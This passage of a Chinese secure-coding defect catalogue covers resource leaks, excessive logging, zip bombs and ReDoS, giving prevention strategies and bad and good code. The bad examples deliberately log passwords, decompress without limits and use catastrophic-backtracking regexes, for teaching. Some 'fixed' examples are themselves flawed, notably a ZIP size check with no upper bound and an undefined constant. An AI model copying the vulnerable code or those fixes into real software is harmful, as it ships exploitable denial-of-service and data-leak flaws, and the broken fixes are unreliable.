- C/C++：使用RAII、智能指针（`std::shared_ptr`）、资源管理类。- Java/C#：使用 `try-with-resources`（Java）、`using` 语句（C#）。- Python：使用 `with` 上下文管理器。
**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在软件设计阶段，明确资源的分配、引用和释放流程。
  1.设计资源管理模块，确保资源的分配和释放遵循固定规则。
  2.在设计中加入资源监控机制，实时跟踪资源使用情况。

**编码**
- 策略：遵循编程规范，确保所有分配的资源都被正确引用和管理。

**开发者测试**
- 策略：在开发阶段进行资源管理的边界测试和压力测试。
  1.模拟极端情况（如资源耗尽、高负载等），验证程序是否能正确处理。
  2.测试资源分配和释放的逻辑，确保所有资源都被正确管理。

**代码Review**
- 策略：在代码审查时，重点检查资源分配、引用和释放的逻辑。
  1.确保所有分配的资源都被正确引用和管理。
  2.检查资源释放是否及时，避免资源泄漏。

**编译构建**
- 策略：在编译和构建阶段，启用资源相关的警告和错误检查。如启用编译器的资源检查功能（如 GCC 的 -fsanitize=address），或在编译时启用资源泄漏检测工具（如 Valgrind），检查程序运行时的资源使用情况。

**代码检查**
- 策略：使用静态代码分析工具（如 Coverity、SonarQube）或手动检查，发现潜在的资源管理问题。

**集成测试**
- 策略：在集成测试阶段，验证资源管理的健壮性和稳定性。

**示例**
**案例1: 缺失对已分配句柄的引用**
**语言: **C

**描述**
文件句柄被打开后，没有被正确引用，导致句柄没有正确释放

**案例分析**
在这个例子中，程序打开了两个文件 file1.txt 和 file2.txt，分别对应文件句柄 fp1 和 fp2。然而，在关闭文件时，只关闭了 fp2，而 fp1 没有被正确引用和关闭。这导致 fp1 未被释放，文件句柄泄漏，系统资源被占用但无法释放

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    FILE* fp1 = fopen("file1.txt", "w");
    FILE* fp2 = fopen("file2.txt", "w");
    
    // 缺少对 fp1 的引用，导致 fp1 未被正确管理
    fclose(fp2);
    
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    FILE* fp1 = fopen("file1.txt", "w");
    FILE* fp2 = fopen("file2.txt", "w");
    
    // 正确引用和管理所有资源
    if (fp1 == NULL || fp2 == NULL) {
        // 处理文件打开失败的情况
        if (fp1 != NULL) fclose(fp1);
        if (fp2 != NULL) fclose(fp2);
        return EXIT_FAILURE;
    }
    
    // 使用文件句柄进行操作
    
    // 正确关闭所有文件句柄
    fclose(fp1);
    fclose(fp2);
    
    return 0;
}
```

**修复建议**
1.确保所有资源都被正确引用和管理：在分配资源后，确保在后续代码中正确引用和管理这些资源。
2.使用资源管理工具：采用资源池或资源管理模块，确保资源的分配和释放遵循固定规则。
3.定期检查资源状态：在程序运行时定期检查资源的使用情况，及时发现和处理资源泄漏问题。

#### CWD-1152-000 缺失对已分配资源的引用

---

# CWD-1153 日志中记录的内容过多

**描述**
记录日志是一种非常有用的调试和故障排除工具，可以帮助开发人员快速定位和解决问题。然而，记录太多日志会占用大量的磁盘空间和系统资源，导致系统变慢或崩溃，还可以为攻击者在试图渗透系统时提供掩护，扰乱用于取证分析的审计跟踪，或者使调试生产环境中的问题变得更加困难。这种缺陷可能导致日志文件占用大量存储空间，影响系统性能，甚至引发安全风险。建议合理配置日志级别、过滤敏感信息、定期清理日志、使用日志轮转、审查日志内容等手段进行优化。

**语言: **JAVA

**严重等级**
信息

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：在软件设计阶段，明确日志记录的策略和规范，避免记录过多不必要的信息。
  1.确定日志记录的级别（如 INFO、WARNING、ERROR 等），并为不同环境（开发、测试、生产）设置不同的日志级别。
  2.设计日志分类模块，区分业务日志、错误日志和调试日志，避免将所有信息都记录到同一个日志文件中。
  3.在设计中避免记录敏感信息（如密码、用户数据等），确保日志内容的安全性。
  4.设计日志轮转机制，按时间或文件大小分割日志文件，防止单个文件过大。

**编码**
- 策略：遵循编程规范，避免记录冗余和敏感信息，并确保日志内容的安全性。
  1.使用合适的日志级别（如 INFO 用于关键操作，DEBUG 用于调试信息）。
  2.避免在日志中直接拼接敏感信息，使用参数化日志记录方法。
  3.避免记录冗余信息（如频繁的“开始处理”、“处理完成”等）。
  4.使用日志框架（如 SLF4J、Log4j）提供的功能，避免重复记录相同信息。

**开发者测试**
- 策略：在开发者测试阶段，验证日志记录的合理性，确保没有过多的日志信息：
  1.编写测试用例，验证日志记录的内容是否符合预期。
  2.模拟高并发场景，测试日志文件的增长速度，确保不会因日志过多导致性能问题。
  3.检查日志文件中是否包含敏感信息或冗余信息。

**代码Review**
- 策略：在代码审查过程中，检查日志记录的合理性，避免记录过多或敏感信息。
  1.检查日志记录的内容，确保没有记录敏感信息（如密码、用户数据）。
  2.检查日志记录的级别是否合理，避免在生产环境中记录过多的调试信息。
  3.检查日志记录的频率，避免因频繁记录导致日志文件过大。

**编译构建**
- 策略：在编译构建阶段，配置日志框架，避免记录过多的日志信息。
  1.配置日志框架（如 Log4j、Logback）的日志级别，确保生产环境中仅记录必要的信息。
  2.配置日志轮转策略，按时间或文件大小分割日志文件。
  3.在构建脚本中添加日志检查脚本，确保日志记录符合规范。

**代码检查**
- 策略：使用代码检查工具（如静态代码分析工具）检测日志记录中的潜在问题。：
  1.配置代码检查工具（如 SonarQube、Checkmarx）检测日志记录中的敏感信息。
  2.配置规则，检测日志中是否包含敏感信息（如密码、用户数据）。

**集成测试**
- 策略：在集成测试阶段，验证日志记录的合理性和安全性。
  1.在集成测试环境中，模拟真实场景，验证日志文件的大小和内容。
  2.检查日志文件中是否包含敏感信息或冗余信息。
  3.验证日志轮转机制是否正常工作，确保日志文件不会无限增长。

**示例**
**案例1: 循环内打印info日志**
**语言: **JAVA

**描述**
在循环内部频繁打印日志会导致性能下降，响应时间变长，甚至可能影响系统的稳定性。

**案例分析**
假设有一个系统需要处理大量数据，例如1000个记录。在处理每个记录时，系统需要打印一条info级别的日志。由于日志打印是一个昂贵的操作，每次打印都会消耗一定的CPU和IO资源。当这个操作被放在循环内部时，日志打印的开销会被放大1000倍，导致整个循环的执行时间显著增加。

**反例**
```java
void foo() {
    for (int i=0; i<1000; i++) {
        LOGGER.info("start to do something, current index is {} ..", i); // 不符合：每次循环都会打印一条info级别的日志
        doSomething(i);
    }
}
```

**正例**
```java
void foo() {
    for (int i=0; i<1000; i++) { // 符合
        doSomething(i);
    }
}
```

**修复建议**
禁止循环内打印info以及以上级别的日志。可以考虑将日志打印移出循环，或者降低日志级别。例如，可以将info级别的日志改为debug级别，或者在循环外部打印总结性的日志信息。

**案例2: 记录冗余的日志信息**
**语言: **JAVA

**描述**
日志中记录了冗余系统处理流程信息及敏感信息。

**案例分析**
在这个例子中，processRequest 方法记录了过多的日志信息，包括用户的敏感信息（如用户名和密码）。这种做法存在以下问题：
- 记录敏感信息：日志中包含了用户的密码，这可能导致数据泄露，引发安全风险。
- 冗余日志信息：记录了过多的调试信息（如“开始处理请求”、“请求处理完成”），这些信息在生产环境中可能没有实际价值，增加了日志文件的大小

**反例**
```java
import java.util.logging.Logger;

public class RiskyLogging {
    private static final Logger logger = Logger.getLogger(RiskyLogging.class.getName());

    public void processRequest(String username, String password) {
        logger.info("开始处理请求");
        logger.info("用户名: " + username);
        logger.info("密码: " + password);
        logger.info("请求处理完成");
    }

    public static void main(String[] args) {
        RiskyLogging logger = new RiskyLogging();
        logger.processRequest("user123", "password123");
    }
}
```

**正例**
```java
import java.util.logging.Logger;
import java.util.logging.Level;

public class SafeLogging {
    private static final Logger logger = Logger.getLogger(SafeLogging.class.getName());

    public void processRequest(String username) {
        logger.log(Level.INFO, "开始处理请求");
        logger.log(Level.INFO, "用户名: {0}", username);
        logger.log(Level.INFO, "请求处理完成");
    }

    public static void main(String[] args) {
        SafeLogging logger = new SafeLogging();
        logger.processRequest("user123");
    }
}
```

**修复建议**
1.避免记录敏感信息：在日志中不记录用户的密码或其他敏感数据。
2.合理配置日志级别：在生产环境中，将日志级别设置为WARNING或更高，避免记录过多的调试信息。
3.使用日志轮转：配置日志轮转，按时间或大小分割日志文件，防止单个文件过大。

#### CWD-1153-000 日志中记录的内容过多

**业界缺陷**

- [CWE-779: Logging of Excessive Data](https://cwe.mitre.org/data/definitions/779.html)
---

# CWD-1155 高度压缩数据的处理不当

**别名: **无法处理高度压缩的数据（数据放大）

**描述**
高度压缩数据的处理不当是指在处理高度压缩的数据时，由于算法或实现上的错误，导致解压后的数据量远超预期，甚至超出系统处理能力。这种缺陷可能导致内存溢出、性能下降或拒绝服务攻击（DoS）。通常通过预估解压大小、限制解压大小、使用安全的解压库等方法避免该问题。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：在软件实现设计阶段，明确数据压缩和解压的逻辑，预估解压后的数据大小。设计时考虑解压数据的上限，选择支持解压大小限制的压缩算法或库，避免因解压数据过大导致系统崩溃。

**编码**
- 策略：
  1.在解压前，检查压缩数据的大小，并预估解压后的数据大小。
  2.使用支持大小限制的解压库（如 zlib 的 inflateGetHeader 函数）。
  3.动态分配内存，避免固定倍数分配（如 compressed_size * 10）。
  4.在解压过程中，设置最大解压数据量，防止内存溢出。

**开发者测试**
- 策略：
  1.编写测试用例，模拟高度压缩数据的解压场景。
  2.测试极端情况（如最大压缩比数据、恶意构造的压缩数据）。
  3.验证解压逻辑是否能够正确处理解压数据超过限制的情况。

**代码Review**
- 策略：
  1.审查解压逻辑，确保内存分配和解压大小限制的正确性。
  2.检查是否使用了安全的解压库和函数。
  3.确保错误处理逻辑（如内存分配失败、解压失败）的健壮性。

**代码检查**
- 策略：
  1.使用静态代码分析工具（如 Coverity、SonarQube）检查潜在的内存溢出或未处理的错误。
  2.配置代码检查工具，重点关注解压逻辑中的内存分配和大小限制。

**集成测试**
- 策略：
  1.在集成测试中，模拟真实场景下的高度压缩数据解压。
  2.验证系统在处理大解压数据时的性能和稳定性。
  3.测试系统在解压数据超过限制时的错误处理逻辑。

**示例**
**案例1: 检查ZIP炸弹**
**语言: **C

**描述**
通过上传一个压缩比非常大的压缩包到设备磁盘，然后进行解压缩，或申请内存来存储压缩包中的内容，由于解压的包内容非常大，导致磁盘空间被占满或申请超大的内存，从而造成拒绝服务攻击。

**案例分析**
在ZIP_GetUncompressSize系列函数调用时，检测长度是否校验过。

**反例**
```c
int bad_case() {
    unsigned int size;
    unsigned int s;
    unsigned int *pSize;

    int z = ZIP_GetUncompressSize("abc.zip", "abc", &size);
    int s1 = size - 1;
    s = size + 1;

    char *p = (char *)malloc(s); // 由于对size未做校验，此处可能导致申请内存失败
    return 0;
}
```

**正例**
```c
int god_case() {
    unsigned int size;
    unsigned int s;
    unsigned int *pSize;

    int z = ZIP_GetUncompressSize("abc.zip", "abc", &size);

    if (10 >= size) { // 此处校验size长度
        return 0;
    }

    int s1 = size - 1;
    s = size + 1;

    char *p = (char *)malloc(s);
    return 0;
}
```

**修复建议**
在解压zip文件时，要先获取文件大小并进行校验，再使用

**案例2: zip炸弹（zip bomb）攻击**
**语言: **JAVA

**描述**
zip压缩算法可能有很大的压缩比，可以把超大文件压缩成很小的zip文件（例如可以将上G的文件压缩为几K大小），这样的文件解压可能会导致zip炸弹（zip bomb）攻击。

**反例**
```java
public void unzip(String fileName, String dir) throws IOException {
    try (FileInputStream fis = new FileInputStream(fileName);
        ZipInputStream zis = new ZipInputStream(fis)) {
        ZipEntry entry;
        File tempFile;
        byte[] buf = new byte[10240];
        int length;

        while ((entry = zis.getNextEntry()) != null) {
            tempFile = new File(dir, entry.getName());
            if (entry.isDirectory()) {
                tempFile.mkdirs();
                continue;
            }
            // 不符合：缺少文件的数量校验
            try (FileOutputStream fos = new FileOutputStream(tempFile)) {
                while ((length = zis.read(buf)) != -1) {
                    fos.write(buf, 0, length); // 不符合：缺少文件总大小校验
                }
            }
        }
    }
}
```

**正例**
```java
private static final long MAX_FILE_COUNT = 100L;
private static final long MAX_TOTAL_FILE_SIZE = 1024L * 1024L;

...

public void unzip(FileInputStream zipFileInputStream, String dir) throws IOException {
    long fileCount = 0;
    long totalFileSize = 0;

    try (ZipInputStream zis = new ZipInputStream(zipFileInputStream)) {
        ZipEntry entry;
        String entryName;
        String entryFilePath;
        File entryFile;
        byte[] buf = new byte[10240];
        int length;

        while ((entry = zis.getNextEntry()) != null) {
            entryName = entry.getName();
            entryFilePath = sanitizeFileName(entryName, dir); // 符合：文件名校验
            entryFile = new File(entryFilePath);

            if (entry.isDirectory()) {
                creatDir(entryFile);
                continue;
            }

            // 符合：文件的数量校验
            fileCount++;
            if (fileCount > MAX_FILE_COUNT) {
                throw new IOException("The ZIP package contains too many files.");
            }

            try (FileOutputStream fos = new FileOutputStream(entryFile)) {
                while ((length = zis.read(buf)) != -1) {
                    totalFileSize += length;
                    zipBombCheck(totalFileSize); // 符合：文件总大小校验
                    fos.write(buf, 0, length);
                }
            }
        }
    }
}

private String sanitizeFileName(String fileName, String dir) throws IOException {
    File file = new File(dir, fileName);
    String canonicalPath = file.getCanonicalPath();

    // dir的末尾缺少文件路径分隔符时，可能会导致校验错误。主动为dir参数末尾加上文件路径分隔符
    String safeDir = new File(dir).getCanonicalPath() + File.separator;

    if (canonicalPath.startsWith(safeDir)) {
        return canonicalPath;
    }
    throw new IOException("Path Traversal vulnerability: ...");
}

private void creatDir(File dirPath) throws IOException {
    boolean result = dirPath.mkdirs();
    if (!result) {
        throw new IOException("Create dir failed, path is : " + dirPath.getPath());
    }
    ...
}

private void zipBombCheck(long totalFileSize) throws IOException {
    if (totalFileSize > MAX_TOTAL_FILE_SIZEG) {
        throw new IOException("Zip Bomb! File size is too large. ...");
    }
}
```

**修复建议**
在解压每个文件之前对其文件名进行校验，如果校验失败，终止整个解压过程；边读边统计实际解压出的文件总大小，如果达到指定的阈值，抛出异常终止解压操作；统计解压出来的文件的数量，如果达到指定阈值，会抛出异常终止解压操作。

#### CWD-1155-000 高度压缩数据的处理不当

#### CWD-1155-001 【JDK】通过java.util.zip.ZipFile进行zip解压时，解压过程中未通过java.util.zip.ZipEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-002 【JDK】通过java.util.zip.ZipFile进行zip解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-003 【JDK】通过java.util.zip.ZipFile进行zip解压时，依赖 java.util.zip.ZipEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-004 【JDK】通过java.util.zip.ZipInputStream进行zip解压时，解压过程中未通过java.util.zip.ZipEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-005 【JDK】通过java.util.zip.ZipInputStream进行zip解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-006 【JDK】通过java.util.zip.ZipInputStream进行zip解压时，依赖 java.util.zip.ZipEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-007 【Apache】通过org.apache.commons.compress.archivers.zip.ZipArchiveInputStream进行zip解压时，解压过程中未通过org.apache.commons.compress.archivers.zip.ZipArchiveEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-008 【Apache】通过org.apache.commons.compress.archivers.zip.ZipArchiveInputStream进行zip解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-009 【Apache】通过org.apache.commons.compress.archivers.zip.ZipArchiveInputStream进行zip解压时，依赖 org.apache.commons.compress.archivers.zip.ZipArchiveEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-010 【Apache】通过org.apache.commons.compress.archivers.zip.ZipFile进行zip解压时，解压过程中未通过org.apache.commons.compress.archivers.zip.ZipArchiveEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-011 【Apache】通过org.apache.commons.compress.archivers.zip.ZipFile进行zip解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-012 【Apache】通过org.apache.commons.compress.archivers.zip.ZipFile进行zip解压时，依赖 org.apache.commons.compress.archivers.zip.ZipArchiveEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-013 【Apache】通过org.apache.commons.compress.archivers.sevenz.SevenZFile进行7z解压时，解压过程中未通过org.apache.commons.compress.archivers.sevenz.SevenZArchiveEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-014 【Apache】通过org.apache.commons.compress.archivers.sevenz.SevenZFile进行7z解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-015 【Apache】通过org.apache.commons.compress.archivers.sevenz.SevenZFile进行7z解压时，依赖 org.apache.commons.compress.archivers.sevenz.SevenZArchiveEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-016 【Apache】通过org.apache.commons.compress.archivers.jar.JarArchiveInputStream进行jar解压时，解压过程中未通过org.apache.commons.compress.archivers.jar.JarArchiveEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-017 【Apache】通过org.apache.commons.compress.archivers.jar.JarArchiveInputStream进行jar解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-018 【Apache】通过org.apache.commons.compress.archivers.jar.JarArchiveInputStream进行jar解压时，依赖 org.apache.commons.compress.archivers.jar.JarArchiveEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-019 【Apache】通过org.apache.commons.compress.archivers.tar.TarArchiveInputStream进行tar解压时，解压过程中未通过org.apache.commons.compress.archivers.tar.TarArchiveEntry的个数统计解压数量并进行限制，占用大量资源

#### CWD-1155-020 【Apache】通过org.apache.commons.compress.archivers.tar.TarArchiveInputStream进行tar解压时，解压过程中未统计解压流实际大小并进行限制，占用大量资源

#### CWD-1155-021 【Apache】通过org.apache.commons.compress.archivers.tar.TarArchiveInputStream进行tar解压时，依赖 org.apache.commons.compress.archivers.tar.TarArchiveEntry#getSize()方法返回的值来统计解压流大小，会因该值被伪造而导致安全防护失效

#### CWD-1155-022 【OS】通过命令执行API直接调用OS解压命令，解压过程中无法进行安全校验，导致不安全解压问题

#### CWD-1155-023 通过zlib库进行压缩文件解压时，解压过程中未统计实际解压大小并进行限制，占用大量资源

**业界缺陷**

- [CWE-409: Improper Handling of Highly Compressed Data (Data Amplification)](https://cwe.mitre.org/data/definitions/409.html)
---

# CWD-1156 复杂度高且低效的正则表达式（正则ReDOS）

**别名: **正则表达式拒绝服务；灾难性回溯

**描述**
复杂度高且低效的正则表达式是指那些结构复杂、难以理解且执行效率低下的正则表达式。低效的正则表达式可能导致指数级计算，从而导致在处理大量数据时会消耗大量计算资源，导致程序运行性能下降，资源耗尽，甚至可能引发系统崩溃或安全风险。通常通过简化正则表达式，使用高效的正式表达式引擎等手段来避免。

**语言: **C,CPP,JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.在系统设计阶段，明确正则表达式的需求和使用场景，优先选择简单、直接的模式。
  2.设计时预估正则表达式在处理大量数据时的性能表现，确保其在预期负载下能够高效运行。
  3.制定设计原则，避免不必要的复杂性，如过多的嵌套、回溯等。

**编码**
- 策略：
1. 遵循编码规范，将复杂的正则表达式分解为多个简单的表达式，逐步处理数据，提高可读性和效率。
2. 编写高效的正则表达式，避免使用复杂的语法结构。
3. 使用支持高效执行的正则表达式引擎，或在必要时优化现有引擎。
4. 程序内的正则表达式，避免使用存在风险的表达式结构。容易存在ReDos攻击的正则表达式主要有两类：
   - 包含具有自我重复的重复性分组的正则，例如：
     `^(\d+)+$`
     `^(\d*)*$`
     `^(\d+)*$`
     `^(\d+|\s+)*$`
   - 包含替换的重复性分组，例如：
     `^(\d|\d|\d)+$`
     `^(\d|\d?)+$`

**开发者测试**
- 策略：
  1.编写测试用例，模拟各种数据输入，特别是极端情况，以发现潜在的性能问题。
  2.使用性能分析工具，测量正则表达式的执行时间，找出瓶颈并进行优化。

**代码Review**
- 策略：
  1.重点检查正则表达式的复杂性和效率，提出改进建议，如简化模式或替换为更高效的表达式。
  2.检查是否存在潜在的性能问题，如过多的回溯操作，确保代码的健壮性和高效性。

**编译构建**
- 策略：
  1.启用编译器的优化选项，提高正则表达式的执行效率，减少计算开销

**代码检查**
- 策略：
  1.利用静态代码分析工具，自动检测正则表达式中的潜在问题，识别复杂或低效的模式

**集成测试**
- 策略：
  1.模拟真实应用场景，测试正则表达式在处理大量数据时的性能表现。
  2.验证正则表达式的效率和稳定性，确保其在实际应用中不会成为性能瓶颈。
  3.测试系统在处理极端情况下的表现，确保其能够优雅地处理各种输入。

**示例**
**案例1: 复杂度高且低效的正则表达式**
**语言: **JAVA

**描述**
正则表达式redos风险

**反例**
```java
String APP_PKG_NAME_REGEX1= "^([a-z_][a-z-9_])+([.][a-z_][a-z-9_])+$";
String APP_PKG_NAME_REGEX2= "^([a-z_][a-z-9_]+)+([.][a-z_][a-z-9_])+$";
String APP_PKG_NAME_REGEX3 = "^([a-z_][a-z-9_])([.][a-z_][a-z-9_])+$";
String APP_PKG_NAME_REGEX4 = "^([a-z_][a-z-9_]+)([.][a-z_][a-z-9_])+$";
```

**正例**
```java
String APP_PKG_NAME_REGEX = "^com\.huawei\.[a-z-9_.]+$";
```

**修复建议**
避免使用复杂正则，例如包含+)+,+),)+,*)*的表达式,有redos风险

**案例2: 使用具有自我重复的重复性分组的正则表达式**
**语言: **PYTHON

**描述**
在正则表达式中，自我重复的重复性分组可能导致不必要的复杂性和潜在的性能问题。这种结构通常发生在分组内部使用量词（如`+`或`*`），而分组外部又使用相同的量词时。这种冗余不仅增加了正则表达式的复杂性，还可能影响匹配效率。

**案例分析**
- `pattern1 = re.compile(r'^(\d+)+$')`分析：
`(\d+)`是一个分组，表示一个或多个数字。`(\d+)`后面的`+`符号表示这个分组可以重复一次或多次。然而，`(\d+)`本身已经可以匹配一个或多个数字，再加上`+`符号，实际上等同于`\d+`，分组是多余的。
- `pattern2 = re.compile(r'^(\d*)*$')`分析：
`(\d*)`表示零个或多个数字，`*`符号表示这个分组可以重复零次或多次。但`(\d*)`本身已经可以匹配零个或多个数字，再加上`*`符号，实际上等同于`(\d*)`，分组是多余的。
- `pattern3 = re.compile(r'^(\d+)*$')`和`pattern4 = re.compile(r'^(\d+|\s+)*$')`的情况类似，分组和外部量词的组合导致了冗余。

**反例**
```py
import re

# 不符合：具有自我重复的重复性分组的正则表达式
pattern1 = re.compile(r'^(\d+)+$')
pattern2 = re.compile(r'^(\d*)*$')
pattern3 = re.compile(r'^(\d+)*$')
pattern4 = re.compile(r'^(\d+|\s+)*$')
```

**正例**
```py
import re

# 符合：安全的正则表达式
pattern1 = re.compile(r'^(\d+)$') # \d+ 匹配一个或多个数字，没有多余的重复性分组或替换
pattern2 = re.compile(r'^(\d*)$') # \d* 匹配零个或多个数字，没有多余的重复性分组或替换
```

**修复建议**
应检视程序内的正则表达式，避免使用存在风险的表达式结构。尽量不要使用过于复杂的正则，尽量少用分组，应将多余的分组删除。

#### CWD-1156-000 复杂度高且低效的正则表达式

#### CWD-1156-001 【Spring配置】Spring的配置文件中存在复杂度高且低效的正则表达式

#### CWD-1156-002 【WSF配置】WSF的配置文件中存在复杂度高且低效的正则表达式

#### CWD-1156-003 【Fastjson】使用com.alibaba.fastjson.JSONPath的构造、read方法时，正则参数是复杂度高且低效的正则表达式

#### CWD-1156-004 【String】使用java.lang.String下的matches、split、replace、replaceAll、replaceFirst等方法时，正则参数是复杂度高且低效的正则表达式

#### CWD-1156-005 【Pattern】使用java.util.regex.Pattern下的compile、matches等方法时，正则参数是复杂度高且低效的正则表达式

#### CWD-1156-006 【Jayway】使用com.jayway.jsonpath.ReadContext的read方法时，正则参数是复杂度高且低效的正则表达式

#### CWD-1156-007 【Nashorn】使用jdk.nashorn.internal.runtime.regexp.RegExpFactory的compile、create方法时，正则参数是复杂度高且低效的正则表达式

#### CWD-1156-008 【Pattern注解】使用javax.validation.constraints.Pattern注解时，正则参数是复杂度高且低效的正则表达式

#### CWD-1156-009 使用了危险的正则表达式：嵌套量词指数级回溯，导致CPU持续100%未能及时退出

**业界缺陷**

- [CWE-1333: Inefficient Regular Expression Complexity](https://cwe.mitre.org/data/definitions/1333.html)
---

# CWD-1157 重复的正则预编译导致资源消耗过多

**描述**

- 重复的正则预编译导致资源消耗过多的缺陷，是指在程序中多次编译相同的正则表达式，导致内存占用增加，甚至可能引发内存泄漏或性能下降。这种缺陷通常发生在以下情况：1.频繁编译相同的正则表达式：在循环或频繁调用的方法中，每次都需要编译相同的正则表达式，导致编译操作重复执行，浪费资源。2.未缓存编译后的Pattern对象：每次需要使用正则表达式时，都重新编译，而不是缓存已经编译好的Pattern对象，导致内存中存在大量重复的Pattern实例。3.线程不安全的缓存机制：如果在多线程环境中，多个线程同时尝试编译相同的正则表达式，而缓存机制没有正确同步，可能导致重复编译或缓存不一致。4.另外，对于JDK中的某些API会接受字符串格式的正则表达式作为参数，如String.replaceAll、String.split等，对于这些API的使用也要考虑性能问题。通常通过缓存编译后的Pattern对象、使用单例模式或静态变量、使用线程安全的缓存机制或避免在循环或频繁调用的方法中编译正则表达式等手段来避免。
**语言: **JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.在软件实现设计阶段，规划正则表达式的使用场景，明确哪些正则表达式会被频繁使用。
  2.设计一个全局的缓存机制，用于存储已经编译好的Pattern对象，确保每个正则表达式只被编译一次。
  3.采用单例模式或静态变量来存储这些Pattern对象，避免在每次需要时都重新编译。

**编码**
- 策略：
  1.遵循编码规范，确保正则表达式的编译逻辑清晰，易于维护和优化。
  2.避免在循环或频繁调用的方法中编译正则表达式。将Pattern对象的编译放在类的初始化阶段，或者在第一次使用时进行编译，并缓存起来。
  3.使用线程安全的缓存机制，确保在多线程环境中不会出现重复编译或缓存不一致的问题。

**开发者测试**
- 策略：
  1.编写测试用例，模拟重复编译正则表达式的情况，检查内存占用和性能表现。
  2.使用性能分析工具，测量编译操作的频率和内存使用情况，确保没有重复编译的问题。

**代码Review**
- 策略：
  1.在代码审查过程中，重点检查正则表达式的编译逻辑，确保Pattern对象被正确缓存和复用。
  2.确保代码中没有硬编码的正则表达式编译操作，所有正则表达式都通过缓存机制进行管理。

**代码检查**
- 策略：
  1.利用静态代码分析工具，自动检测重复编译正则表达式的代码片段，并生成警告或错误提示

**示例**
**案例1: 在循环中编译正则表达式**
**语言: **JAVA

**描述**
在循环内部创建相同的正则表达式，因此它将在每次迭代中被编译。更优化的做法是在循环外部使用Pattern.compile预先编译这个正则表达式
**案例分析**

**反例**
```java
import java.util.regex.Pattern;

public class RegexCompilationExample {
    public static void main(String[] args) {
        String regex = "^\\d{3}-\\d{3}-\\d{4}$";
        for (int i = 0; i < 1000000; i++) {
            // 每次循环都重新编译相同的正则表达式
            Pattern pattern = Pattern.compile(regex);
            // 使用pattern进行匹配操作
            boolean matches = pattern.matcher("123-456-7890").matches();
            // ...
        }
    }
}
```

**正例**
```java
import java.util.regex.Pattern;

public class RegexCompilationExample {
    private static final Pattern SSN_PATTERN = Pattern.compile("^\\d{3}-\\d{3}-\\d{4}$");

    public static void main(String[] args) {
        String regex = "^\\d{3}-\\d{3}-\\d{4}$";
        for (int i = 0; i < 1000000; i++) {
            // 使用已编译的Pattern对象
            boolean matches = SSN_PATTERN.matcher("123-456-7890").matches();
            // ...
        }
    }
}
```

**修复建议**
如果需要在循环中使用正则表达式，建议在循环外部使用Pattern.compile预先编译这个正则表达式

**案例2: 在被频繁调用的方法内编译正则表达式**
**语言: **JAVA

**描述**
在一个频繁被调用的方法内部定义了Pattern.compile，这样每次调用方法的时候都会重新编译正则表达式，这样效率不高。

**案例分析**
isLowerCase方法每次调用都会编译一次Pattern，这样在高频率调用的情况下，性能会受到影响。

**反例**
```java
public class RegexExp {
    // 该方法被频繁调用
    private boolean isLowerCase(String str) {
        Pattern pattern = Pattern.compile("[a-z]+"); // 不符合
        if (pattern.matcher(str).find()) {
            return true;
        }
        return false;
    }
}
```

**正例**
```java
public class RegexExp {
    private static final Pattern CHARSET_REG = Pattern.compile("[a-z]+"); // 符合

    // 该方法被频繁调用
    private boolean isLowerCase(String str) {
        if (CHARSET_REG.matcher(str).find()) {
            return true;
        }
        return false;
    }
}
```

**修复建议**
扩大Pattern的作用域，如用类属性的方式，这样它只会在类加载时编译一次，避免了每次方法调用时的重复编译。

#### CWD-1157-000 重复的正则预编译导致资源消耗过多

---

# CWD-1158 循环中资源消耗过多

**描述**
循环中资源消耗过多的缺陷是指在程序中使用循环时，由于资源管理不当，导致内存、CPU时间等资源被过度使用，从而影响程序性能甚至导致崩溃。在循环中执行直接或间接的消耗平台资源（例如消息传递、会话、锁或文件描述符等）的操作，导致积累很多尚未销毁的资源从而造成大量的内存和计算消耗，可能会导致内存泄漏，CPU使用率过高，资源耗尽等问题。通常通过优化循环结构，减少资源分配次数，及时释放资源，资源池化等手段避免。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.在系统设计阶段，分析循环的使用场景，明确循环的必要性和优化空间。
  2.设计高效的循环结构，减少不必要的循环次数，提前终止条件，避免无限循环或过度循环。
  3.规划资源管理机制，确保循环中使用的资源能够被正确分配和释放。

**编码**
- 策略：遵循编码规范，采用适当方法避免该问题，如：
  1.避免在循环中频繁分配和释放内存。预先分配足够的内存，或使用内存池技术。
  2.及时释放循环中使用的资源，如内存、文件句柄、网络连接等。
  3.避免使用递归代替循环，防止栈溢出。

**开发者测试**
- 策略：
